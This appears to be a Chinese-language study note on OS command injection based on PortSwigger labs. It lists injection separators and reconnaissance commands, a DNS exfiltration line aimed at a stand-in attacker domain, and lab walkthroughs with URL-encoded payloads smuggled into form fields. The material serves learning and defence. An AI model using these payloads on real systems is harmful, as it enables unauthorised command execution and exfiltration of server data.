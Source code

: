# Command Injection

https://portswigger.net/web-security/os-command-injection

有些 application 在後端會直接使用 shell 來幫忙完成一些指令，當輸入沒有被好好過濾，就會發生 command injection

常見 payload
- `&` ：將指令做分隔
- `;`：不管前面，一定會執行後面
- `||`：前面失敗才執行後面
- `&&`：前面成功才執行後面
- `\n`：換行

關閉 command
- `"`、`'`
- ``` ` ```、`$(`

當有 command injection 發生時，可以用這些指令來得到更多的資訊


|purpose|Linux|Window|
|-------|-----|------|
|Name of current user|whoami|whoami|
|Operating system| uname -a| ver|
|Network configuration| ifconfig|ipconfig /all|
|Network connections|netstat -an|netstat -an|
|Running processes|ps -ef|tasklist|

## Blind Command Injection
有時候 sever 不會直接把整個 command 得到的結果回傳
- 透過 time delay 去得知一些資訊
    - `ping -c 10 127.0.0.1`：讓 sever ping 自己 ping 10 秒
- 將結果重導向到一個我們 access 的到的檔案
    - `whoami > /var/www/static/whoami.txt`
- 用 dns lookup 來讓 sever 對我們的 ip 發出 dns request
    - `& nslookup `whoami`.kgji2ohoyw.web-attacker.com &`
### Lab1
目標：執行 `whoami` <br>
攔截封包(放到 repeater 去送 request 會更方便)並且修改 payload，發現可以成功執行 `ls`
```
productId=1%26ls||&storeId=2
```
- `&` 會被解析為分隔符號，所以做 urlencode
- 利用 `||` 來讓後面無法成功執行的內容不執行


把 `ls` 改成 `whoami` 就可以完成 lab 了

### Lab2
目標：讓 sever delay 10 秒

題目有說是 feedback function 有 command injection 漏洞，因此就試著對 command 進行注入，以下是一個可能的寄信程式會用的 command
```
mail -s "This site is great" -aFrom:peter@normal-user.net feedback@vulnerable-website.com
```
由此可知，我們可以對 email 進行注入

payload:
```
name=123&email=123%26ping -c 10 127.0.0.1%26%40456&subject=123&message=123
```
- 注入`ping -c 10 127.0.0.1` 讓 sever ping 自己 ping 10 秒

### Lab3
目標：注入 whoami 並且找到 user

1. 攔截封包並且注入 payload
2. 到 /image?filename=y.txt 讀檔

payload
```
&name=123&email=123%40456%26ls>/var/www/images/y.txt%26&subject=123&message=123
```
> %26ls>/var/www/images/y.txt%26
- urlencode `&` : %26
- 我們可以上傳檔案到 /var/www/images/ 並且透過 url: /image?filename=y.txt 讀檔(看其他 image 讀取的方法得知)